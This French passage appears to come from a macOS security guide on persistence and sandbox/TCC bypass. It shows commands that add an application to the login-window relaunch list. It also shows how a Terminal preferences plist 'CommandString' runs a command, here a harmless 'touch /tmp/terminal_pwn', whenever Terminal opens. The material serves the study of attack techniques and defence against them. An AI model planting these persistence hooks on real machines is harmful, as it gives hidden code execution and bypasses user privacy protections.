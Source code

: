 Donc, pour faire en sorte que les applications rouverts lancent la vôtre, vous devez simplement **ajouter votre application à la liste**.

Le UUID peut être trouvé en listant ce répertoire ou avec `ioreg -rd1 -c IOPlatformExpertDevice | awk -F'"' '/IOPlatformUUID/{print $4}'`

Pour vérifier les applications qui seront rouverts, vous pouvez faire :
```bash
defaults -currentHost read com.apple.loginwindow TALAppsToRelaunchAtLogin
#or
plutil -p ~/Library/Preferences/ByHost/com.apple.loginwindow.<UUID>.plist
```
Pour **ajouter une application à cette liste**, vous pouvez utiliser :
```bash
# Adding iTerm2
/usr/libexec/PlistBuddy -c "Add :TALAppsToRelaunchAtLogin: dict" \
-c "Set :TALAppsToRelaunchAtLogin:$:BackgroundState 2" \
-c "Set :TALAppsToRelaunchAtLogin:$:BundleID com.googlecode.iterm2" \
-c "Set :TALAppsToRelaunchAtLogin:$:Hide 0" \
-c "Set :TALAppsToRelaunchAtLogin:$:Path /Applications/iTerm.app" \
~/Library/Preferences/ByHost/com.apple.loginwindow.<UUID>.plist
```
### Préférences du Terminal

- Utile pour contourner le sandbox : [✅](https://emojipedia.org/check-mark-button)
- Contournement TCC : [✅](https://emojipedia.org/check-mark-button)
- Utilisation du Terminal pour avoir les permissions FDA de l'utilisateur qui l'utilise

#### Emplacement

- **`~/Library/Preferences/com.apple.Terminal.plist`**
- **Déclencheur** : Ouvrir le Terminal

#### Description & Exploitation

Dans **`~/Library/Preferences`** sont stockées les préférences de l'utilisateur dans les Applications. Certaines de ces préférences peuvent contenir une configuration pour **exécuter d'autres applications/scripts**.

Par exemple, le Terminal peut exécuter une commande au démarrage :

<figure><img src="../images/image (1148).png" alt="" width="495"><figcaption></figcaption></figure>

Cette configuration est reflétée dans le fichier **`~/Library/Preferences/com.apple.Terminal.plist`** comme ceci :
```bash
[...]
"Window Settings" => {
"Basic" => {
"CommandString" => "touch /tmp/terminal_pwn"
"Font" => {length = 267, bytes = 0x62706c69 73743030 d4010203 04050607 ... 00000000 000000cf }
"FontAntialias" => 1
"FontWidthSpacing" => 1.004032258064516
"name" => "Basic"
"ProfileCurrentVersion" => 2.07
"RunCommandAsShell" => 0
"type" => "Window Settings"
}
[...]
```
Donc, si le plist des préférences du terminal dans le système peut être écrasé, la fonctionnalité **`open`** peut être utilisée pour **ouvrir le terminal et cette commande sera exécutée**.
